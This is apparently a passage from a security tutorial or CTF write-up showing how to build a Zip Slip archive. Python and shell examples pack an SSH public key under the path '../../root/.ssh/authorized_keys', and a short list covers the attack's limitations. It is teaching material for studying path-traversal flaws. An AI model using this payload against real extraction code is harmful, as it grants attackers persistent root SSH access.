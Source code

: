 #### DIY: Build your own Zip Slip payload!

{% details "With Python" %}
Python's built-in `zipfile` module provides a convenient way to create zip files.

```python
import zipfile

with zipfile.ZipFile("evil-slip.zip", "w") as zip:
    zip.write("my-ssh-key.pub", "../../root/.ssh/authorized_keys")
    #          │                 └ filename to store on the archive
    #          └ file to compress from our local file system
```

This creates a new `evil-slip.zip` zip file. After importing the `zipfile` module, we create an instance with the desired file name (`evil-slip.zip`) and use write-mode (`"w"`). (There is also `r` and `a` for reading/adding files.)

We also use Python's `with` statement, so that the zip file automatically saves when leaving the block, whether due to normal or erroneous circumstances.

Inside, we use `zip.write` to add files to the zip. We add a local file `my-ssh-key.pub` and store it as `../../root/.ssh/authorized_keys` in the archive.

One nice thing about the `zipfile` module is that it constructs the file *in-memory* (without creating temporary files). This allows us to craft complex zips without trashing our local filesystem.

{% enddetails %}

{% details "With Shell Commands" %}
Another approach is to use shell commands and reverse the process: start with the files we want unzipped.

```shell {.command-line data-prompt="$" data-filter-output="out>"}
touch ../../root/.ssh/authorized_keys
out>Normally we would run `ssh-keygen` to generate a key pair...
out>and use the generated public key as our authorized_keys.
out>But let's assume ../.ssh/authorized_keys holds a public key.
out>
zip evil-slip ../../root/.ssh/authorized_keys
out>  adding: ../../root/.ssh/authorized_keys (deflated 18%)
out>
unzip -l evil-slip
out>Archive:  evil-slip.zip
out>  Length      Date    Time    Name
out>---------  ---------- -----   ----
out>      575  01-23-2024 17:53   ../../root/.ssh/authorized_keys
out>---------                     -------
out>      575                     1 file
```

{% enddetails %}

#### Limitations of Zip Slip

- On Windows, you may need backslashes `\` instead of forward slashes `/`. This ultimately depends on the unzipping application/library. Some libraries will convert between slashes.
- The app needs execute permissions on intermediate folders (to traverse across) and write permissions on the target folder.
  For instance, to write to `foo/bar/baz/flag.txt`, we need `x` permissions on `foo/` and `foo/bar/`; and `wx` permissions on `foo/bar/baz/`.
